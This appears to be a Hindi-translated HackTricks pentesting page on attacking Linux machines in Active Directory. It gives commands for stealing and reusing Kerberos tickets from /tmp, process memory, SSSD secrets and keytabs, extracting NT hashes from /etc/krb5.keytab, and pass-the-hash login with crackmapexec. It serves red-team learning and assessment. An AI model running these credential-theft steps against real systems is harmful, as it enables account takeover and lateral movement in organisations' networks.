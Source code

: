 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

एक लिनक्स मशीन भी एक सक्रिय निर्देशिका वातावरण के अंदर मौजूद हो सकती है।

एक AD में लिनक्स मशीन **फाइलों के अंदर विभिन्न CCACHE टिकटों को स्टोर कर सकती है। ये टिकट किसी अन्य kerberos टिकट की तरह उपयोग और दुरुपयोग किए जा सकते हैं**। इन टिकटों को पढ़ने के लिए, आपको टिकट का उपयोगकर्ता मालिक होना चाहिए या मशीन के अंदर **root** होना चाहिए।

## Enumeration

### AD enumeration from linux

यदि आपके पास लिनक्स (या Windows में bash) पर AD तक पहुंच है, तो आप AD को सूचीबद्ध करने के लिए [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) का प्रयास कर सकते हैं।

आप लिनक्स से AD को सूचीबद्ध करने के लिए **अन्य तरीकों** के बारे में जानने के लिए निम्नलिखित पृष्ठ की भी जांच कर सकते हैं:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA एक ओपन-सोर्स **वैकल्पिक** है Microsoft Windows **Active Directory** के लिए, मुख्य रूप से **Unix** वातावरण के लिए। यह Active Directory के समान प्रबंधन के लिए एक पूर्ण **LDAP निर्देशिका** को MIT **Kerberos** की कुंजी वितरण केंद्र के साथ जोड़ता है। CA और RA प्रमाणपत्र प्रबंधन के लिए Dogtag **Certificate System** का उपयोग करते हुए, यह स्मार्टकार्ड सहित **multi-factor** प्रमाणीकरण का समर्थन करता है। Unix प्रमाणीकरण प्रक्रियाओं के लिए SSSD एकीकृत है। इसके बारे में अधिक जानें:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Playing with tickets

### Pass The Ticket

इस पृष्ठ पर आप विभिन्न स्थान पाएंगे जहाँ आप **एक लिनक्स होस्ट के अंदर kerberos टिकट पा सकते हैं**, अगले पृष्ठ पर आप सीख सकते हैं कि इन CCache टिकटों के प्रारूपों को Kirbi (वह प्रारूप जिसे आपको Windows में उपयोग करना है) में कैसे परिवर्तित किया जाए और साथ ही PTT हमले को कैसे किया जाए:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### CCACHE ticket reuse from /tmp

CCACHE फ़ाइलें **Kerberos क्रेडेंशियल्स** को स्टोर करने के लिए बाइनरी प्रारूप हैं जो आमतौर पर `/tmp` में 600 अनुमतियों के साथ संग्रहीत होती हैं। इन फ़ाइलों की पहचान उनके **नाम प्रारूप, `krb5cc_%{uid}`,** के द्वारा की जा सकती है, जो उपयोगकर्ता के UID से संबंधित है। प्रमाणीकरण टिकट सत्यापन के लिए, **पर्यावरण चर `KRB5CCNAME`** को इच्छित टिकट फ़ाइल के पथ पर सेट किया जाना चाहिए, जिससे इसका पुन: उपयोग सक्षम हो सके।

प्रमाणीकरण के लिए उपयोग किए जा रहे वर्तमान टिकट की सूची `env | grep KRB5CCNAME` के साथ बनाएं। प्रारूप पोर्टेबल है और टिकट को **पर्यावरण चर सेट करके पुन: उपयोग किया जा सकता है** `export KRB5CCNAME=/tmp/ticket.ccache` के साथ। Kerberos टिकट नाम प्रारूप `krb5cc_%{uid}` है जहाँ uid उपयोगकर्ता UID है।
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE टिकट पुन: उपयोग कीजिए कीरिंग से

**प्रक्रिया की मेमोरी में संग्रहीत Kerberos टिकटों को निकाला जा सकता है**, विशेष रूप से जब मशीन की ptrace सुरक्षा अक्षम होती है (`/proc/sys/kernel/yama/ptrace_scope`)। इस उद्देश्य के लिए एक उपयोगी उपकरण [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey) पर पाया जा सकता है, जो सत्रों में इंजेक्ट करके और `/tmp` में टिकटों को डंप करके निकासी को सुविधाजनक बनाता है।

इस उपकरण को कॉन्फ़िगर और उपयोग करने के लिए, नीचे दिए गए चरणों का पालन किया जाता है:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
यह प्रक्रिया विभिन्न सत्रों में इंजेक्ट करने का प्रयास करेगी, सफलता को `/tmp` में `__krb_UID.ccache` नामकरण सम्मेलन के साथ निकाले गए टिकटों को संग्रहीत करके दर्शाएगी।

### SSSD KCM से CCACHE टिकट पुन: उपयोग

SSSD `/var/lib/sss/secrets/secrets.ldb` पथ पर डेटाबेस की एक प्रति बनाए रखता है। संबंधित कुंजी `/var/lib/sss/secrets/.secrets.mkey` पथ पर एक छिपी हुई फ़ाइल के रूप में संग्रहीत होती है। डिफ़ॉल्ट रूप से, कुंजी केवल तब पढ़ी जा सकती है जब आपके पास **root** अनुमतियाँ हों।

\*\*`SSSDKCMExtractor` \*\* को --database और --key पैरामीटर के साथ बुलाने से डेटाबेस को पार्स किया जाएगा और **गुप्त को डिक्रिप्ट** किया जाएगा।
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
The **credential cache Kerberos blob को एक उपयोगी Kerberos CCache** फ़ाइल में परिवर्तित किया जा सकता है जिसे Mimikatz/Rubeus को पास किया जा सकता है।

### CCACHE टिकट पुन: उपयोग keytab से
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Extract accounts from /etc/krb5.keytab

सेवा खाता कुंजी, जो रूट विशेषाधिकारों के साथ काम करने वाली सेवाओं के लिए आवश्यक हैं, सुरक्षित रूप से **`/etc/krb5.keytab`** फ़ाइलों में संग्रहीत होती हैं। ये कुंजी, सेवाओं के लिए पासवर्ड के समान, कड़ी गोपनीयता की मांग करती हैं।

कुंजीपटल फ़ाइल की सामग्री की जांच करने के लिए, **`klist`** का उपयोग किया जा सकता है। यह उपकरण कुंजी विवरण प्रदर्शित करने के लिए डिज़ाइन किया गया है, जिसमें उपयोगकर्ता प्रमाणीकरण के लिए **NT Hash** शामिल है, विशेष रूप से जब कुंजी प्रकार को 23 के रूप में पहचाना जाता है।
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Linux उपयोगकर्ताओं के लिए, **`KeyTabExtract`** RC4 HMAC हैश निकालने की कार्यक्षमता प्रदान करता है, जिसे NTLM हैश पुन: उपयोग के लिए उपयोग किया जा सकता है।
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
macOS पर, **`bifrost`** कुंजीपटल फ़ाइल विश्लेषण के लिए एक उपकरण के रूप में कार्य करता है।
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
निकाली गई खाता और हैश जानकारी का उपयोग करते हुए, **`crackmapexec`** जैसे उपकरणों का उपयोग करके सर्वरों से कनेक्शन स्थापित किए जा सकते हैं।
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## संदर्भ

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
